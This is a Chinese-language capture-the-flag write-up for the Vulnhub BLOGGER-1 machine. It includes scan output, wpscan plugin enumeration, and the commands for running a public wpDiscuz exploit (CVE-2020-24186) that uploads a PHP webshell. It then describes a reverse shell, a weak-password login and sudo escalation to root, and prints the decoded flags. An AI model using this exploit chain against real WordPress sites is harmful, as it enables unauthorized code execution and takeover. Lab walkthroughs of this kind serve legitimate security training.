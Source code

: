 ```yaml
---
title: Vulnhub	675 BLOGGER-1
date: 2021-04-04
---
```

考点：wpscan,WPDiscuz,base64

靶机链接：<https://www.vulnhub.com/entry/blogger-1,675/>

<!--more-->

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| BLOGGER-1  | 10.0.2.15 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.15
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### WEB测试

#### dirsearch

发现`/assets/`目录，点了点几个目录，发现wordpress

![1](https://static.iihack.com/vulnhub/675/1.jpg)

绑定域名

![2](https://static.iihack.com/vulnhub/675/2.jpg)

#### wpscan

默认参数扫描发现无插件信息，只好穷举插件了

```bash
$ wpscan --url http://10.0.2.15/assets/fonts/blog/ --plugins-detection aggressive
```

![3](https://static.iihack.com/vulnhub/675/3.jpg)

发现`wpdiscuz`插件

## 获得权限

![4](https://static.iihack.com/vulnhub/675/4.jpg)

```bash
$ searchsploit wpdiscuz
$ searchsploit -m php/webapps/49967.py
$ python 49967.py -u http://10.0.2.15/assets/fonts/blog/ -p /?p=29
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[59453] | code:[200]
[!] Got wmuSecurity value: a79c058f94
[!] Got wmuSecurity value: 29 

[+] Generating random name for Webshell...
[!] Generated webshell name: aoixhruomuxeias

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/09/aoixhruomuxeias-1663424364.4294.php&quot; 
```

![5](https://static.iihack.com/vulnhub/675/5.jpg)

本地监听，下载反弹shell并访问，获得反弹shell，`/home`获得三个用户

尝试弱口令，发现`vagrant`密码就是`vagrant`

![6](https://static.iihack.com/vulnhub/675/6.jpg)


## 提权

执行`sudo -l`发现`vagrant`可直接切`root`

![7](https://static.iihack.com/vulnhub/675/7.jpg)

### 小彩蛋

```bash
# cat root.txt|base64 -d
cat root.txt|base64 -d
Hey There,
Myself Gaurav Raj, Hacker, Programmer & FreeLancer.
This is my first attempt to create a room. Let me know if you liked it.
Any issue or suggestions for me. Ping me at twitter

Twitter: @thehackersbrain
Github: @thehackersbrain
Instagram: @thehackersbrain
Blog: https://thehackersbrain.pythonanywhere.com


Here's Your Flag.
flag{W311_D0n3_Y0u_P3n3tr4t3d_M3 :)}
/root/

# cat user.txt|base64 -d
cat user.txt|base64 -d
flag{Y0u_D!D_17 :)}
```

